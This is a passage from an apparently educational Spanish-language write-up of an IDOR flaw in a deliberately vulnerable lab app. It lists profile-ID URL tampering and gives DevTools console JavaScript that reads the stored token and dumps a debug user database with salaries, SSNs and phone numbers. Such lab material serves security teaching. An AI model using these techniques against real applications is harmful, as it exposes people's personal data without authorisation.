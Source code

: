 ### 💥 **Formas de Explotación**

#### **Método 1: Manipulación de URL en el Frontend**
1. Login como `jaranguiz` (usuario ID: 2)
2. Navegar a `/profile/2` (tu perfil) ✅
3. Cambiar URL a `/profile/1` ❌ - Accede al perfil de admin
4. Cambiar URL a `/profile/3` ❌ - Accede al perfil de james
5. Cambiar URL a `/profile/4` ❌ - Accede al perfil de rob

#### **Método 2: Manipulación Directa en DevTools**
```javascript
// Abrir DevTools → Console y ejecutar:

// 1. Verificar tu token actual
console.log('Mi token:', localStorage.getItem('token'));
console.log('Mis datos:', JSON.parse(localStorage.getItem('user') || '{}'));

// 2. MÉTODO PRINCIPAL: Acceso directo a datos via debugAPI
const exploreUsers = () => {
  if (window.debugAPI && window.debugAPI.usersDatabase) {
    console.log("🔍 ACCESO DIRECTO A BASE DE DATOS DETECTADO");
    const users = window.debugAPI.usersDatabase;
    
    users.forEach(user => {
      console.log(`
👤 Usuario ${user.id}: ${user.username}
📝 Nombre: ${user.profile?.fullName}
💰 Salario: ${user.profile?.salary?.toLocaleString()}
🆔 SSN: ${user.profile?.ssn}
📞 Teléfono: ${user.profile?.phone}
🏢 Departamento: ${user.profile?.department}
🔐 Rol: ${user.role}
      `);
    });
    
    return users;
  } else {
    console.log("❌ debugAPI no disponible. MÉTODOS ALTERNATIVOS:");
    console.log("   1. Navegar manualmente a /profile/1, /profile/2, /profile/3, /profile/4");
    console.log("   2. Usar herramientas de red del navegador para interceptar datos");
    console.log("   3. Revisar el código fuente en la pestaña Sources");
    
    // Mostrar datos disponibles en localStorage
    console.log("📋 Datos en localStorage:", {
      token: localStorage.getItem('token'),
      user: JSON.parse(localStorage.getItem('user') || '{}')
    });
  }
};

// Ejecutar exploración
exploreUsers();
```
